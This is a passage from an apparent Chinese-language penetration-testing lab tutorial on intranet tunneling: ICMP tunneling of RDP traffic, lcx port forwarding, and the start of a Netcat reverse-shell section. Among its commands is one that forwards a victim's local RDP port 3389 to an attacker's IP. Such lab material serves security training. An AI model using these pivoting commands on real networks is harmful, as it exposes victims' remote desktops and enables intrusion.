 

连接本地1080端口：

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ8ENx28GoiaIWzm1REOnZpd3s0ib8IlUPhCIcEckadSFHzibNvgRl9TNyEBvB5NQLpicGuXhLKEtlETPA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



弹出远程连接端口

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ8ENx28GoiaIWzm1REOnZpd3KODa6qzUJ3G0kPiawcvT85SjKRlStXLE7ia4opr2QUee834uVs8Xgk5A/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



在Target3上我们发现3389端口正在被Target2请求,实际上是kali请求的

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ8ENx28GoiaIWzm1REOnZpd3IUOaVGyALt9yz5t7x9B88s6mLGZw3gAJKrqLGngdmnaKF6RzEMe0Xw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

现在远程连接它走的不是以前的那个协议,而是ICMP流量的数据

把3389流量转成了ICMP流量





**案例3-传输层转发隧道Portmap使用-检测,利用**

端口转发,环境是域环境

Windows:lcx

Linux:portmp

lcx -slave 攻击IP3131 127.0.0.1 3389 //将本地3389给攻击IP的3131

lcx -listen 3131 3333//监听3131转发至3333



![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ8ENx28GoiaIWzm1REOnZpd3z9vJpS1dzXMa0uNxHvS3xmwvO8WjRXYmWfIM6Wq6I5hCia22KDOcUibA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ8ENx28GoiaIWzm1REOnZpd3PNZzuX5WTCkjmDJ0wlQsHDzPE3qvicib1G1Ba2EAq7x5ycJGAO5e82tA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



用kali连接WEbserver的7777

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ8ENx28GoiaIWzm1REOnZpd3hGbvNGPuCRjcDzwqY4RN8xzDYWzjzAeiappqzAWLRvNn5Ydcow47D6Q/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ8ENx28GoiaIWzm1REOnZpd3XK8HTjBCbway3m5PUphUNGa4zKY2Vgn4DUz3ibMyyXUWC9zxlDZTpYA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



**案例4-传输层转发隧道Netcat使用-检测,利用,功能**



kali-god\webserver-god\sqlserver | dc

1.双向连接反弹shell

  正向:攻击连接受害

